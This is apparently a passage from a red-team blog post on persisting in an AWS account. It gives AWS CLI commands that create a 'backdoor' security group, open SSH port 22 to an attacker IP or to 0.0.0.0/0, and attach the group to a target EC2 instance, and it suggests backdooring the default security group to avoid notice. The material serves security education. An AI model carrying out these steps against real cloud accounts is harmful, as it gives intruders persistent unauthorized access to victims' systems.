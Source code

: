 What if we want to access, let's say an internal EC2 instance of the target, over the internet? This could allow access to the specified EC2 instance allowing us to get back in whenever we want.

### Tidbits
- We can allow ingress traffic from the whole internet by specifying the `0.0.0.0/0` as the IP address range.
  - Again, this is for red team :) The best practice would be to use specific IP address ranges.
- For Linux, we can leverage the SSH access and use port `22`. For Windows, RDP would be preferred and port `3389` can be used.
- A better approach would be to backdoor the existing security groups instead of creating new ones.
  - The [Default Security Group](https://docs.aws.amazon.com/vpc/latest/userguide/default-security-group.html)!

### Modifying Security Group of EC2
First, let's create a new security group:

```bash
aws ec2 create-security-group --group-name backdoor-case-04-group --description "Testing Backdoor-case-04" --vpc-id vpc-xxxx --region eu-central-1
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-04-01-Creating-New-Group.png)
_Creating new security group_

Note the `GroupId` as we will need it for the `--group-id` argument in next commands. 

Next, we will add inbound rules that would allow connections over port `22` from our attacker machine's IP (we can use `0.0.0.0/0` as well)

```bash
aws ec2 authorize-security-group-ingress --group-id sg-xxxxx --region eu-central-1 --protocol tcp --port 22 --cidr 10.10.10.10/32
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-04-02-Adding-Ingress-Rules.png)
_Adding ingress rules_

Lastly, we need to assign this group to our target EC2 instance:

```bash
aws ec2 modify-instance-attribute --instance-id i-xxxxx --groups sg-xxxx sg-xxxx --region eu-central-1
```
